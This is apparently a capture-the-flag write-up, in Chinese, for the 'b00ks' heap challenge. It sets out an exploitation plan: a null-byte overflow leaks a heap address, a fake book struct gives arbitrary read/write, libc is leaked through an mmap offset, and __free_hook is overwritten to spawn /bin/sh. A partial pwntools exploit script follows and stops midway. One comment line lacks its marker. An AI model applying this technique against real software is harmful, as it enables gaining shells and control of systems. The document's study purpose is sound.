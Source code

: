 #####思路
>1. books数组和name相距0x20, 写books[0]时会覆盖name末尾\x00, 造成堆地址泄漏
>```
>.bss:0000000000202040 name_str        db    ? ;           
>.bss:0000000000202041                 db    ? ;
>.bss:0000000000202042                 db    ? ;
>...
>.bss:0000000000202060 book_list       db    ? ;
>```
>2. 精心控制books[0]->description, 伪造fake book
>3. 再次修改name, 可覆盖books[0]一字节为0, 通过精心控制, 使得books[0]指向fake book
>4. fake book 的description可指向任意地址, 造成任意地址读写
>5. description内容 长度不限,可申请大内存使libc调用mmap分配内存,由于mmap分配内存与libc基址存在固定偏移, 使fake book的description指向book2的description, 泄漏libc基址
>6. 修改fake book的description内容, 使book2的description指向__free_hook
>7. 修改book2的description内容, 使free_hook指向 execve("/bin/sh",NULL,NULL)

#####EXP
```
#!/usr/bin/env python
# coding=utf-8
from pwn import *

payload = 'A'*32

io = process('./b00ks')
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
# Wait for debugger
pid = util.proc.pidof(io)[0]
print "The pid is: " + str(pid)
#util.proc.wait_for_debugger(pid)

# Create book1
log.info(io.recvuntil('Enter author name: '))
# \x00覆盖了books数组第0项末尾
io.sendline(payload)
log.info(io.recvuntil('> '))					##1
io.sendline('1')
log.info(io.recvuntil('book name size: '))
io.sendline('32')
log.info(io.recvuntil('(Max 32 chars): '))
io.sendline('book1')
log.info(io.recvuntil('description size: '))
io.sendline('256')
log.info(io.recvuntil('description: '))
io.sendline('description1')
log.info(io.recvuntil('> '))					##2
io.sendline('4')
# 由于字符串末尾\x00被覆盖, 泄漏出book1结构件地址
log.info(io.recvuntil('A'*32))
book1_addr = u64(io.recvn(6).ljust(8,'\x00'))
print hex(book1_addr)
推算出book2结构体地址
book2_addr = book1_addr + 0x70

# Create book2
log.info(io.recvuntil('> '))					##3
io.sendline('1')
log.info(io.recvuntil('book name size: '))
io.sendline('32')
log.info(io.recvuntil('(Max 32 chars): '))
io.sendline('book2')
log.info(io.recvuntil('description size: '))
io.sendline(str(0x40000)) 
```